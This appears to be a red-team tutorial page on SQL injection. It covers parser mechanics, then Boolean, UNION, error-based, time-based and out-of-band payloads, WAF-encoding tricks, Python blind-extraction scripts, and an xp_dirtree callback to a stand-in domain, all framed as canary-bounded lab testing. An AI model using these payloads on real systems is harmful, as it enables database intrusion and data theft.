

# SQL Injection

> [!warning] Authorized validation only
> Use these techniques only against an approved test system containing synthetic records. The examples prove parser confusion with canary values; they do not authorize extraction, destructive statements, persistence, or access to production data.

## Core Vulnerability & Parser Mechanics (Zero)

SQL injection is a failure to preserve the boundary between **SQL grammar** and **application data**. A database does not execute a string directly. Its frontend first decodes the client character set, tokenizes keywords, identifiers, operators, literals, and comments, parses those tokens into an abstract syntax tree (AST), resolves names and types, optimizes the logical plan, and finally executes a physical plan. If an application constructs query source by concatenating an untrusted value, the value enters the lexer before the AST exists. A quote can terminate a literal, an operator can create a new predicate node, and a comment token can remove the developer’s intended suffix.

Consider a vulnerable construction:

```text
source = "SELECT id,name FROM products WHERE id='" + input + "' AND tenant_id=?"
```

For `input = 42`, the predicate is conceptually `AND(EQUAL(id,"42"), EQUAL(tenant_id,$1))`. For `input = 42' AND 1=2-- `, the parser instead receives a closed string, a second Boolean expression, and a comment. The AST has changed before binding occurs. This explains why validating that a value merely *contains digits* or escaping one quote style is unreliable: the security question is whether untrusted bytes can become syntax after every decoding and normalization stage.

Prepared statements solve value-context injection because the SQL text is parsed first and placeholders become typed value nodes. The bound value is never re-lexed as query text. Parameters generally cannot represent table names, column names, sort direction, or arbitrary operators; dynamic identifiers therefore require a fixed mapping such as `sort=name -> products.name`, not concatenation. Stored procedures are safe only when their internal statements also avoid dynamic SQL. ORMs are not immunity: raw-query methods, dynamic ordering, filter fragments, and string-built scopes can reopen the grammar boundary.

The observable forms are consequences of the same root cause. **Error-based** validation exposes lexer, type, or conversion diagnostics. **UNION-shaped** behavior requires compatible column count and types because two result relations must share a shape. **Boolean-blind** testing turns a predicate into a one-bit oracle by comparing stable response features. **Time-blind** testing uses a bounded delay when output and errors are hidden. **Stacked statements** depend on both the driver and database protocol allowing multiple statements. Out-of-band behavior depends on database features and egress, and should not be exercised unless it is explicitly approved.

Dialect details matter. MySQL accepts `#` and `-- ` comments and exposes `SLEEP`; PostgreSQL uses `--` and `pg_sleep`; Microsoft SQL Server commonly uses `WAITFOR DELAY`; Oracle queries traditionally reference `DUAL`; SQLite lacks a native sleep primitive. Quote rules, implicit casts, identifier folding, concatenation operators, limit syntax, and error messages all influence validation. Defenders should retain the database product and driver version in the finding because an apparently equivalent payload can produce a different AST in another dialect.

Canonicalization is part of the root cause analysis. A request may be percent-decoded by a CDN, decoded again by a framework, converted from UTF-8, normalized from full-width Unicode, and then passed through a query builder. A WAF that evaluates the original representation while the application evaluates a normalized one sees a different language. Testing therefore compares representations one transformation at a time and records the value at the edge, application, and database boundary.

## Visual Attack Flow



The paired requests are essential. One malformed response can be an ordinary bug; a repeatable true/false relationship demonstrates that input controls SQL semantics. The tester varies only the predicate and uses a cache-busting nonce, identical headers, and multiple samples.

## Weaponization & Practical Execution (Mastery)

### Boolean validation against a synthetic endpoint

Baseline:

```http
GET /lab/products?id=42&nonce=7f19 HTTP/1.1
Host: shop.example.test
Accept: application/json
X-Assessment-ID: C2R-SQL-014
Connection: close
```

False predicate, encoded as `42' AND 1=2-- `:

```http
GET /lab/products?id=42%27%20AND%201%3D2--%20&nonce=7f20 HTTP/1.1
Host: shop.example.test
Accept: application/json
X-Assessment-ID: C2R-SQL-014
Connection: close
```

```http
HTTP/1.1 200 OK
Content-Type: application/json
X-Request-ID: req-8e622
Content-Length: 2

[]
```

The approved true control changes only `1=2` to `1=1` and returns the seeded product:

```http
HTTP/1.1 200 OK
Content-Type: application/json
X-Request-ID: req-8e623

[{"id":42,"name":"C2R-CANARY","tenant":"LAB"}]
```

In a laboratory replica with verbose errors, a lone quote may expose the stage that failed:

```text
org.postgresql.util.PSQLException:
ERROR: unterminated quoted string at or near "' AND tenant_id=$1"
SQLSTATE: 42601
Position: 52
```

That diagnostic supports SQL interpretation but must not be displayed to users. A production response should use a generic error and preserve the detailed exception only in restricted telemetry.

### Encoding and differential parsing

The tester may submit `%27`, double-encoded `%2527`, or the full-width apostrophe `U+FF07` only to determine where canonicalization occurs. Comment-separated tokens such as `AND/**/1=2` test whether the edge and backend disagree about insignificant grammar. Duplicate parameters (`id=42&id=...`) test first-value versus last-value handling. These are not “magic bypasses”; each is an experiment about two components interpreting the same bytes differently. The report must state which layer decoded or normalized the value and whether the application remained vulnerable without the WAF.

### Bounded blind-validation logic

```python
import hashlib, statistics, time, requests

URL = "https://shop.example.test/lab/products"
HEADERS = {"X-Assessment-ID": "C2R-SQL-014", "Accept": "application/json"}

def sample(product_id, count=5):
    observations = []
    for n in range(count):
        start = time.monotonic()
        response = requests.get(
            URL,
            params={"id": product_id, "nonce": f"c2r-{n}-{time.time_ns()}"},
            headers=HEADERS,
            timeout=4,
        )
        observations.append({
            "status": response.status_code,
            "bytes": len(response.content),
            "hash": hashlib.sha256(response.content).hexdigest()[:12],
            "seconds": time.monotonic() - start,
        })
    return observations

truth = sample("42' AND 1=1-- ")
falsehood = sample("42' AND 1=2-- ")
print("true lengths:", [x["bytes"] for x in truth])
print("false lengths:", [x["bytes"] for x in falsehood])
print("median delta:", statistics.median(x["seconds"] for x in truth) -
      statistics.median(x["seconds"] for x in falsehood))
```

```text
true lengths:  [43, 43, 43, 43, 43]
false lengths: [2, 2, 2, 2, 2]
median delta: 0.0031
decision: stable content oracle; synthetic C2R-CANARY only
```

This script validates one seeded record and stops. For timing tests, use a short approved delay, at least five baseline samples, median or trimmed-mean comparison, and a threshold well above normal jitter. Never infer production secrets when a canary proves the defect.

Remediation is parameterized SQL at every value boundary, fixed mappings for identifiers, least-privilege database accounts, generic client errors, and regression tests that assert malicious strings remain literal data. A WAF is compensating control, not root-cause closure.

### Crook-to-Root exploitation progression

#### Stage 0 — locate the expression context

Begin by recording a clean request and changing one parameter at a time. Inputs may occupy quoted strings, numbers, identifiers, `LIKE` patterns, JSON operators, sort clauses, or stored procedures. A single apostrophe is useful in a string context, while `1-0` versus `1-1` can expose arithmetic evaluation without quotes. Compare status, body length, stable body hash, redirect target, latency, and application behavior. The objective is to identify a repeatable parser oracle, not to send a large payload dictionary.

The familiar authentication expression explains the basic mechanic:

```sql
-- Intended
SELECT id FROM users WHERE username='alice' AND password_hash='...';

-- Unsafe concatenation with username: ' OR 1=1-- 
SELECT id FROM users WHERE username='' OR 1=1-- ' AND password_hash='...';
```

`AND` normally binds more tightly than `OR`, so parenthesis placement matters. Modern applications may select several rows and reject nonunique results, making the classic form ineffective even though injection exists. Validate against a purpose-built fixture and reason from the final query rather than memorizing one string.

#### Stage 1 — in-band UNION control

A `UNION` combines two result sets only when both sides have the same number of columns and compatible types. Operators commonly infer width using increasing `ORDER BY n` values or `UNION SELECT NULL,...`; `NULL` is broadly type-compatible. A laboratory request can identify three columns:

```http
GET /lab/catalog?id=-1%27%20UNION%20SELECT%20NULL%2C%27C2R-CANARY%27%2CNULL--%20 HTTP/1.1
Host: shop.example.test
X-Assessment-ID: C2R-SQL-021
Accept: text/html
```

```http
HTTP/1.1 200 OK
Content-Type: text/html

<article data-id=""><h2>C2R-CANARY</h2><p></p></article>
```

If two columns render, keep one as a canary string and use the other only for approved synthetic metadata such as database version. Type errors reveal whether a column expects text, integer, date, or binary. Database catalogs differ: `information_schema` is common but not universal; PostgreSQL has `pg_catalog`, SQL Server has `sys`, Oracle has data-dictionary views, and SQLite stores schema text in `sqlite_master`. In a real engagement, the rules of engagement determine whether catalog enumeration or any non-canary record is permitted.

#### Stage 2 — error-based extraction

Error-based SQL injection deliberately places a bounded expression where the engine must convert, compare, or process it and then returns the resulting diagnostic. It is powerful because one request can disclose a value, but it is conspicuous and often suppressed. Examples for laboratory comparison include:

```sql
-- PostgreSQL: invalid integer conversion embeds the synthetic string
CAST('C2R-CANARY' AS integer)

-- SQL Server: conversion failure embeds the supplied value
CONVERT(int, 'C2R-CANARY')

-- MySQL legacy XML functions in versions where available
EXTRACTVALUE(1, CONCAT(0x7e, 'C2R-CANARY', 0x7e))
```

Expected restricted diagnostics:

```text
PostgreSQL SQLSTATE 22P02: invalid input syntax for type integer: "C2R-CANARY"
SQL Server Msg 245: Conversion failed when converting the varchar value 'C2R-CANARY' to data type int.
MySQL 1105: XPATH syntax error: '~C2R-CANARY~'
```

The subtype is not tied to XML; XML functions are merely one historical error channel. Arithmetic overflow, duplicate-key errors, type casts, and malformed full-text expressions can serve the same purpose. A professional finding names the exact engine behavior and version because functions disappear or error text is sanitized.

#### Stage 3 — Boolean-blind inference

When errors and selected values are hidden, turn the endpoint into a one-bit oracle. First prove `true` and `false` controls. Then test a predicate over one synthetic value, such as `SUBSTRING(canary,1,1)='C'`. Equality guesses are linear in alphabet size; ordinal comparisons enable binary search. For an alphabet of 95 printable characters, each character requires at most `ceil(log2(95)) = 7` decisions under ideal conditions.

```python
import requests

URL = "https://shop.example.test/lab/blind"
HEADERS = {"X-Assessment-ID": "C2R-SQL-021"}

def oracle(position, midpoint):
    # Fixture query compares only the seeded setting C2R-CANARY.
    predicate = (
        "1' AND ASCII(SUBSTRING(current_setting('c2r.canary'),"
        f"{position},1))>{midpoint}-- "
    )
    r = requests.get(URL, params={"id": predicate}, headers=HEADERS, timeout=4)
    return r.status_code == 200 and len(r.content) > 40

def infer_character(position):
    low, high = 31, 127
    while high - low > 1:
        mid = (low + high) // 2
        if oracle(position, mid):
            low = mid
        else:
            high = mid
    return chr(high)

print("synthetic prefix:", "".join(infer_character(i) for i in range(1, 4)))
```

```text
synthetic prefix: C2R
requests: 21
scope guard: stopped after three known canary characters
```

Real response oracles can be a word, row count, JSON field, redirect, status, or response hash. Normalize dynamic timestamps and CSRF tokens before comparing bodies. Repeat uncertain decisions and use majority voting; otherwise one transient response corrupts every later inference.

#### Stage 4 — time-based inference

Time-based SQL injection converts a predicate into a conditional delay. PostgreSQL can conditionally call `pg_sleep`; MySQL provides `SLEEP`; SQL Server offers `WAITFOR DELAY`; Oracle commonly uses a time-consuming operation or approved callable package. The logic is `if predicate then delay else return`. Use two seconds rather than long sleeps, collect baseline distributions, serialize requests to avoid queue interaction, and set a threshold well above the 95th percentile of normal latency.

```http
GET /lab/catalog?id=1%27%20AND%20CASE%20WHEN%20SUBSTRING%28%27C2R%27%2C1%2C1%29%3D%27C%27%20THEN%20pg_sleep%282%29%20ELSE%20pg_sleep%280%29%20END%20IS%20NULL--%20 HTTP/1.1
Host: shop.example.test
X-Assessment-ID: C2R-SQL-021
```

Expected timing record:

```text
baseline median=84ms p95=111ms
false predicate median=87ms
true predicate median=2089ms
classification threshold=1500ms
```

Timing is inherently noisy. Connection pools, retries, caches, serverless cold starts, and rate limiting can imitate delays. The red team should prove the condition with interleaved true/false samples and cease once the canary is validated.

#### Stage 5 — controlled out-of-band validation

Out-of-band (OOB) SQL injection is relevant when the database can initiate DNS, HTTP, or file-share resolution and the web response provides no useful oracle. A query expression embeds a **fixed synthetic marker** into a hostname under an assessment-controlled domain; observation of that lookup proves execution and egress. Product-specific primitives include network packages, file-path resolution, or extension functions, and they are often disabled by least privilege.

For example, an approved SQL Server fixture may resolve a UNC path containing only a marker:

```sql
EXEC master..xp_dirtree '\\C2R-CANARY.sql-021.oob.example.test\probe';
```

```text
authoritative DNS log:
2026-07-31T12:04:11Z query=C2R-CANARY.sql-021.oob.example.test type=A source=192.0.2.55
captured credentials=none; listener does not accept SMB authentication
```

The same concept can be implemented through an organization-approved callback service for other engines. Do not encode production values, collect challenge-response credentials, or use third-party callback domains. DNS labels are length-limited, case-insensitive in practice, and cached; unique engagement and request identifiers prevent ambiguity.

#### WAF and canonicalization testing

WAF analysis is a controlled parser-differential exercise. Establish that the origin is vulnerable in a lab, then compare equivalent representations: `%27` versus a literal quote, `%2527` to test double decoding, spaces versus tabs or comments, keyword case, JSON number versus string, duplicate parameters, and Unicode normalization. SQL comments can replace insignificant whitespace in some dialects, but malformed comment placement changes tokenization. The report records which representation the WAF inspected and which the application evaluated. This is not permission to conceal activity; every request should carry the assessment identifier and stay within the agreed rate.

## Red Team OpSec & Impact

SQL injection can progress from authentication predicate manipulation to reading data available to the database account, changing records, invoking database-side features, or reaching operating-system execution when dangerous privileges and extensions exist. Impact is constrained by query context, statement batching, driver behavior, transaction scope, database role, network egress, filesystem permissions, and whether the application returns results. A mastery assessment separates **technical capability** from **authorized proof**: one canary row may prove read access, while destructive updates or operating-system actions remain out of bounds.

Operationally, every subtype leaves a different footprint. UNION and error-based probes generate conspicuous keywords, conversion errors, unusual result width, and database exceptions. Boolean extraction produces repeated near-identical requests with changing predicates and response lengths. Time-based extraction creates latency steps and long-running queries. OOB validation creates resolver or egress telemetry. Common WAF categories include OWASP CRS SQL-injection rules in the 942xxx family; database traces may record SQLSTATE codes, query fingerprints, duration, row counts, and the application database identity.

Authorized OpSec means controlling risk and making activity attributable—not hiding from defenders. Use a dedicated source, `X-Assessment-ID`, seeded data, approved hours, bounded concurrency, and explicit stop conditions. Coordinate expected alarms through the engagement control channel while preserving enough realism to measure control effectiveness. Do not tamper with logs, randomize traffic to evade correlation, or imitate an unrelated employee. When a test objective asks whether controls detect slow or encoded SQLi, document the exact profile in the rules of engagement and replay it at the minimum volume needed.

During a signed procurement-portal assessment, a tester found a quoted `supplierId` in a legacy repository. A paired Boolean test produced stable 2-byte and 51-byte bodies. A three-column UNION rendered `C2R-CANARY` in the supplier-name field, establishing in-band control without reading customer data. The team then demonstrated a two-second conditional delay in a replica to show that exploitation remained possible when output was hidden. No OOB or write primitive was used because read and blind capabilities already satisfied the objective.

The operator’s evidence package should include the baseline, true and false controls, reconstructed query, dialect and driver, request IDs, response hashes, timing samples, generated SQL or database trace where available, privileges observed through approved means, and the precise stop point. The final impact statement distinguishes demonstrated behavior from plausible escalation and identifies prerequisites for each next step. That discipline produces a stronger red-team result than a noisy data dump.

---
> 🔼 Up: [[Web Injection Testing]]
